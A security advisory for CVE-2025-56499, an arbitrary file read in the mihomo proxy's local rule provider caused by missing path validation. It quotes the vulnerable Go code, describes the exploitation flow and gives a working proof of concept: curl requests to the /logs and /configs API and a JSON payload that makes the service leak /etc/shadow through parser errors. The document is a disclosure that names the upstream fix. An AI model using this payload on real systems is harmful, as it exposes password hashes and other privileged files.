

# CVE-2025-56499

Arbitrary File Read via Missing Path Validation in Local Rule Provider

Upstream Fix: https://github.com/MetaCubeX/mihomo/pull/2177

Affected Versions: `mihomo <= v1.19.11`

## Summary
When parsing `rule-providers` configuration, the `type = "file"` branch fails to validate the supplied path. An authenticated attacker controlling `schema.Path` can point the provider to any readable local file. Because most arbitrary files do not conform to the expected rule format, parsing errors (including substantial file content fragments) are emitted into the in-memory logs and exposed through the `/logs` API. Since `mihomo` often runs with elevated (root / administrator) privileges, this results in high-impact information disclosure. 

## Type & Root Cause
- Type: Arbitrary file read / missing path validation.
- Direct Cause: In `rules/provider/parse.go`, the `schema.Type == "file"` case only invokes `C.Path.Resolve()` and never enforces `C.Path.IsSafePath()` or any equivalent whitelist / sandbox constraint.
```go
var vehicle P.Vehicle
switch schema.Type {
case "file":
    path := C.Path.Resolve(schema.Path)
    vehicle = resource.NewFileVehicle(path)
case "http":
    path := C.Path.GetPathByHash("rules", schema.URL)
    if schema.Path != "" {
        path = C.Path.Resolve(schema.Path)
        if !C.Path.IsSafePath(path) {
            return nil, C.Path.ErrNotSafePath(path)
        }
    }
    vehicle = resource.NewHTTPVehicle(schema.URL, path, schema.Proxy, nil, resource.DefaultHttpTimeout, schema.SizeLimit)
case "inline":
    return NewInlineProvider(name, behavior, schema.Payload, parse), nil
default:
    return nil, fmt.Errorf("unsupported vehicle type: %s", schema.Type)
}
```
File branch deficiencies:
- No path normalization + safety boundary enforcement.
- Allows absolute paths referencing sensitive system locations.

## Exploitation Flow
1. Attacker polls or streams `/logs` to capture parser error output.
2. Attacker submits a crafted configuration via `/configs` embedding a malicious `rule-providers` entry with `type = file` and target file path.
3. Service attempts to parse the file as rule data → fails → emits error + content fragments into logs.
4. Attacker harvests leaked data; repeats to broaden coverage or refine extraction.

## PoC
Listen for logs (example token `Bearer 123`):
```bash
curl -X GET "http://localhost:9999/logs" \
  -H "Authorization: Bearer 123"
```
Inject configuration to read `/etc/shadow`:
```bash
curl -X PUT "http://localhost:9999/configs" \
  -H "Authorization: Bearer 123" \
  -H "Content-Type: application/json" \
  -d '{"payload": "{\"log-level\": \"debug\", \"external-controller-unix\": \"mihomo.sock\", \"rule-providers\": {\"pwn\": {\"type\": \"file\", \"behavior\": \"classical\", \"format\": \"text\", \"path\": \"/etc/shadow\"}}}"}'
```
Unescaped payload:
```json
{
  "log-level": "debug",
  "external-controller-unix": "mihomo.sock",
  "rule-providers": {
    "pwn": {
      "type": "file",
      "behavior": "classical",
      "format": "text",
      "path": "/etc/shadow"
    }
  }
}
```
Result: Parse failure lines in `/logs` contain fragments of `/etc/shadow` (example screenshot):

